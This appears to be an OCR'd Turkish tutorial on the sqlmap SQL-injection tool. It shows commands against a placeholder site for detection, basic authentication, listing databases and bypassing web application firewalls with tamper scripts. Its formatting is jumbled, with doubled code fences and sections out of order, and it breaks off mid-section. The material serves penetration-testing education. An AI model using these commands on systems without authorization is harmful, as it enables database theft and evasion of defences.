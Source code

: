```

Temel Kimlik Doğrulama:
bash
```bash
```bash
sqlmap -u "https://example.com/page?id=1" --auth-type=Basic --auth-cred="user:password"
```
```

6. SQLmap ile Güvenlik Duvarını (WAF) Bypass Etmek
SQLmap, bazı güvenlik duvarlarını (WAF) aşmak için çeşitli teknikler sunar. Eğer bir WAF tespit edilirse, aşağıdaki bayrakları kullanabilirsiniz:
bash
```bash
```bash
sqlmap -u "https://example.com/page?id=1" --tamper=space2comment,between
```
```

```bash
```bash
Burada --tamper bayrağı, SQL sorgularını değiştiren bir dizi teknik sağlar.
```
```

Özet:
SQLmap, SQL enjeksiyonlarını test etmek için güçlü ve etkili bir araçtır. URL, POST verileri, çerezler ve HTTP başlıkları gibi farklı yollarla testler yapılabilir. Ayrıca, SQLmap ile veritabanı bilgileri toplama, verileri dökümleme ve hata mesajları üzerinde bilgi edinme işlemleri yapılabilir. Aracın geniş parametre seçenekleri sayesinde, hemen hemen her tür SQL enjeksiyon açığını keşfetmek mümkün hale gelir.



SQLmap Nedir? Ne İşe Yarar?
SQLmap, web uygulamalarındaki SQL Injection (SQLi) zafiyetlerini tespit etmek ve istismar etmek için kullanılan açık kaynaklı bir araçtır. Otomatikleştirilmiş yapısıyla, hassas verileri elde etmek, veritabanı yönetim sistemlerini belirlemek ve yetkisiz erişim sağlamak için kullanılır.

SQLmap’in Temel Özellikleri
- SQL Injection Zafiyetlerini Otomatik Tespit Eder
✅ Farklı Veritabanı Türleri ile Çalışır (MySQL, PostgreSQL, MSSQL, Oracle, SQLite vb.)
✅ GET ve POST İsteklerini Analiz Edebilir
✅ Veritabanı İsmi, Tablolar ve İçerikleri Elde Edebilir
✅ Kullanıcı Hesapları ve Hashlenmiş Şifreleri Çıkartabilir
✅ Güvenlik Duvarlarını (WAF) Bypass Etmek İçin Tamper Scriptlerini Destekler
✅ Cookies, HTTP Header, User-Agent Üzerinden Test Yapabilir

SQLmap Nasıl Kullanılır?
Temel Kullanım:
bash
```bash
```bash
sqlmap -u "https://example.com/page?id=1"
```
```
Bu komut, belirtilen URL’de SQL Injection olup olmadığını kontrol eder.
Daha Gelişmiş Komutlar:
## Veritabanı Adlarını Listeleme:
bash
```bash
```bash
sqlmap -u "https://example.com/page?id=1" --dbs
```
## Tabloları Listeleme:
```
```